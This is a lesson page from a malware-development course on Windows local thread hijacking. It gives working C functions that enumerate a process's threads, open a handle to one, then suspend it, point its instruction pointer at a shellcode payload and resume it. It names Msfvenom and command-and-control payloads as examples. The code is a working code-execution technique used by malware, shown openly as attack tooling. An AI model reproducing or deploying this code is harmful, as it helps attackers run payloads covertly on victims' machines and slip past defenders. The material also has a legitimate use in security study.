 37. Thread Hijacking - Local Thread Enumeration[**37. Thread Hijacking - Local Thread Enumeration**](https://maldevacademy.com/modules/37)
===========================================================================================

**Thread Hijacking - Local Thread Enumeration**
-----------------------------------------------

### **Introduction**

So far, when local thread hijacking was performed, the target thread was created using `CreateThread` and its context was modified. This module will demonstrate an alternative method where the system's running threads are enumerated using `CreateToolhelp32Snapshot` and then hijacked.

### **Thread Enumeration**

Recall the use of `CreateToolhelp32Snapshot` from previous modules, where the WinAPI was used to retrieve a snapshot of the system's processes. In this module, the same WinAPI is being used but with a different value being used for the [dwFlags Parameter](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot#parameters). To enumerate the running threads on the system, the `TH32CS_SNAPTHREAD` flag must be specified. Using this flag, `CreateToolhelp32Snapshot` returns a [THREADENTRY32](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/ns-tlhelp32-threadentry32) structure that's shown below.


```
typedef struct tagTHREADENTRY32 {
  DWORD dwSize;                       // sizeof(THREADENTRY32)
  DWORD cntUsage;
  DWORD th32ThreadID;                 // Thread ID
  DWORD th32OwnerProcessID;           // The PID of the process that created the thread.
  LONG  tpBasePri;
  LONG  tpDeltaPri;
  DWORD dwFlags;
} THREADENTRY32;

```
Each running thread has its own `THREADENTRY32` structure in the captured snapshot.

### **Identifying The Thread's Owner**

According to Microsoft's documentation:

*To identify the threads that belong to a specific process, compare its process identifier to the*`*th32OwnerProcessID*`*member of the*`*THREADENTRY32*`*structure when enumerating the threads.*

In other words, to determine the process to which the thread belongs, compare the target PID to `THREADENTRY32.th32OwnerProcessID`, which is the PID of the process that created the thread. If the PIDs match, then the thread presently being enumerated belongs to the target process.

### **Required WinAPIs**

The following WinAPIs will be used to perform thread enumeration.

* [CreateToolhelp32Snapshot](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) - Used with the `TH32CS_SNAPTHREAD` flag to receive a snapshot of all the threads running on the system.
* [Thread32First](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32first) - Used to get the information about the first thread captured in the snapshot.
* [Thread32Next](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32next), Used to get the information about the next thread in the captured snapshot.
* [OpenThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openthread) - Used to open a handle to the target thread using its thread ID.
* [GetCurrentProcessId](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentprocessid) - Used to retrieve the local process's PID. Since the local process is the target process, its PID is required to determine whether the threads belong to this process.

### **Worker Threads**

Before diving into the thread enumeration code, it's important to understand the concept of *worker threads*. Although `CreateThread` is not used in the code, the Windows operating system will create worker threads in the process. These worker threads are valid targets for thread hijacking. An example of these worker threads can be seen below.

[![](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-0209185998-74b97dca-e541-401d-b700-b45852e7564a.png)](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-0209185998-74b97dca-e541-401d-b700-b45852e7564a.png)The threads that are shown in the image above, such as `ntdll.dll!EtwNotificationRegister+0x2d0`, are created by the operating system to run the `EtwNotificationRegister` function, which is related to the *ETW - Event Tracing for Windows*. ETW will be explained in future modules but for now, it is sufficient to understand that this function is used to notify the operating system when a certain event occurs in the process.

### **Thread Enumeration Function**

`GetLocalThreadHandle` utilizes the previously mentioned steps to perform thread enumeration. It takes 3 arguments:

* `dwMainThreadId` - The thread ID of the main thread of the local process. This is required to avoid targeting the local process's main thread.
* `dwThreadId` - A pointer to a DWORD that receives a hijackable thread's ID.
* `hThread` - A pointer to a HANDLE that receives a handle to the hijackable thread.


```
BOOL GetLocalThreadHandle(IN DWORD dwMainThreadId, OUT DWORD* dwThreadId, OUT HANDLE* hThread) {

	// Getting the local process ID
	DWORD           dwProcessId  = GetCurrentProcessId();
	HANDLE          hSnapShot    = NULL;
	THREADENTRY32   Thr          = {
		.dwSize = sizeof(THREADENTRY32)
	};

	// Takes a snapshot of the currently running processes's threads
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("\n\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	// Retrieves information about the first thread encountered in the snapshot.
	if (!Thread32First(hSnapShot, &Thr)) {
		printf("\n\t[!] Thread32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}

	do {
		// If the thread's PID is equal to the PID of the target process then
		// this thread is running under the target process
		// The 'Thr.th32ThreadID != dwMainThreadId' is to avoid targeting the main thread of our local process
		if (Thr.th32OwnerProcessID == dwProcessId && Thr.th32ThreadID != dwMainThreadId) {

			// Opening a handle to the thread
			*dwThreadId  = Thr.th32ThreadID;
			*hThread     = OpenThread(THREAD_ALL_ACCESS, FALSE, Thr.th32ThreadID);

			if (*hThread == NULL)
				printf("\n\t[!] OpenThread Failed With Error : %d \n", GetLastError());

			break;
		}

	// While there are threads remaining in the snapshot
	} while (Thread32Next(hSnapShot, &Thr));


_EndOfFunction:
	if (hSnapShot != NULL)
		CloseHandle(hSnapShot);
	if (*dwThreadId == NULL || *hThread == NULL)
		return FALSE;
	return TRUE;
}


```
### **Local Thread Hijacking Function**

Once a valid handle to the target thread has been obtained, it can be passed to the `HijackThread` function. The [SuspendThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-suspendthread) WinAPI will be used to suspend the thread and then `GetThreadContext` and `SetThreadContext` will be used to update the `RIP` register to point to the payload's base address. Additionally, the payload must be written to the local process memory before hijacking the thread.


```

BOOL HijackThread(HANDLE hThread, PVOID pAddress) {

	CONTEXT	ThreadCtx = {
		.ContextFlags = CONTEXT_ALL
	};

	SuspendThread(hThread);

	if (!GetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	ThreadCtx.Rip = pAddress;

	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("\t[#] Press <Enter> To Run ... ");
	getchar();

	ResumeThread(hThread);

	WaitForSingleObject(hThread, INFINITE);

	return TRUE;
}

```
### **Demo**

Note that the payload execution may take some time as the hijacked thread is not the main thread and does not run continuously.

[![](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-109188468-94e7741b-8953-4079-8a7c-8ab3cc449779.png)](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-109188468-94e7741b-8953-4079-8a7c-8ab3cc449779.png)Additionally, depending on the payload, the local process may crash after execution. For example, if the payload is for a command and control server, the process will continue running, however, if Msfvenom's calc shellcode was used, the process will crash because Msfvenom's calc shellcode terminates the calling thread.

[![](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-209188936-9a4de3fe-fd13-4a25-b343-153a59ea894b.png)](37%20Thread%20Hijacking%20-%20Local%20Thread%20Enumeration%200e5417dc3f844a68aa319deb6a376ce9/tenum-209188936-9a4de3fe-fd13-4a25-b343-153a59ea894b.png)


